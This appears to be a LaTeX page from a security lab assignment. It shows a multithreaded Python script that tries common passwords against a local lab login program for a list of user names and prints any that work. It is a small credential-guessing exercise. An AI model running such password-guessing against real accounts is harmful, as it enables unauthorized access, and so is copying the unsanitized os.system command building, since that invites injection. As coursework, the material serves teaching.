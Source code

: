 \documentclass{article}
\begin{document}
\section{Question 3}
\subsection*{Task:}
Given a larger list of most common passwords (of 100k passwords) and a list of names, 
create a script to find out what passwords they used.

\subsection*{Break3.py:}
\begin{lstlisting}[language=Python]
import time
import os
import threading

if __name__ in '__main__':
    start_time = time.time()
    common_passwords=[i.strip() for i in open('/home/cse/Lab1/PwnedPWs100k.txt')]
    gang_names=[i.strip() for i in open('/home/cse/Lab1/gang.txt')]

    def thread_function(i):
        for j in range(10):
            if os.system('python3 ./Login.pyc'+ ' ' + i + ' ' + common_passwords[j] + " >/dev/null 2>&1") == 0:
                print(i, common_passwords[j], "--- %s seconds ---" % (time.time() - start_time))
                break

    threads = list()
    for i in gang_names:
        x = threading.Thread(target=thread_function, args=(i,))
        threads.append(x)
        x.start()

    for index, thread in enumerate(threads):
        thread.join()
    
        print("--- %s seconds ---" % (time.time() - start_time))
\end{lstlisting}
\subsection*{Output:}
\begin{center}
    \includegraphics[scale=.8]{images/Q3_Output.png}
\end{center}
\section{Question 4}
\end{document}
